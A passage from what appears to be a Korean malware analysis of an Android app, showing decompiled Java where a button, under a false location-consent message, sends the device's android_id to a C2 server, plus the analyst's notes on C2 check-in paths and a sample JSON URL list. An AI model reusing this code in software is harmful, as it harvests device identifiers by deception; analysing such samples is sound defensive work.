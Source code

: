 ```java 
            System.out.println(e.getMessage());
        } catch (Exception e2) {
            System.out.println("error");
            System.out.println(e2.getMessage());
        }
        setContentView(R.layout.activity_main);
        Button button = (Button) findViewById(R.id.startBtn);
        this.startBtn = button;
        button.setOnClickListener(new View.OnClickListener() {
            public void onClick(View view) {
                Toast.makeText(MainActivity.this.getApplicationContext(), "정확한 위치를 확인 하기 위해 사용자 동의가 필요 합니다!", 0).show();
                try {
                    SendData.send((Integer) 1, MainActivity.this.getDeviceInfo());
                } catch (Exception e) {
                    throw new RuntimeException(e);
                }
            }
        });
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), new MainActivity$$ExternalSyntheticLambda0());
    }

    static /* synthetic */ WindowInsetsCompat lambda$onCreate$0(View view, WindowInsetsCompat windowInsetsCompat) {
        Insets insets = windowInsetsCompat.getInsets(WindowInsetsCompat.Type.systemBars());
        view.setPadding(insets.left, insets.top, insets.right, insets.bottom);
        return windowInsetsCompat;
    }

    /* access modifiers changed from: private */
    public String getDeviceInfo() {
        return Settings.Secure.getString(getContentResolver(), "android_id");
    }

    public void accessJob() {
        Toast.makeText(getApplicationContext(), "너의 정보의 명복을 엑셔언비이임~~~ 감사합니다!! ^^>", 0).show();
    }
}
```      
앱 동작을 살펴보면, `/fsalke2j9sdfcjlz/BSBoQXNxCxOtACCpujH9zMdrCJsl5B`에 요청을 보내 C2 Server와 통신이 가능한지 확인한다. 통신이 가능하다면 `SendData.send("/fsalke2j9sdfcjlz/lh1sy5VXzAL8Qmadn5OOvLP5mheIo5").getJSONArray("list")` 요청을 보내 URL 리스트를 가져오고, `SendData.send((Integer) 0).getJSONArray("list")` 요청을 보내 HTTP Header와 Body 부분을 가져온다.   
    
- SendData.send("/fsalke2j9sdfcjlz/lh1sy5VXzAL8Qmadn5OOvLP5mheIo5").getJSONArray("list")

```json
{
    "list":[
        "FAHoezFX3Beuxz46nuZDJSJHxa1XC0",
        "yQOIIWf3PzTrvh0NdUByunaZZCGTYA",
        "Rc8AAnDk0myfDAK9QU5aNk2gWG1Tfx",
        "yWHUOv7if1lqbMCMKfYBOrHS8yrTIA"
    ]
}
```

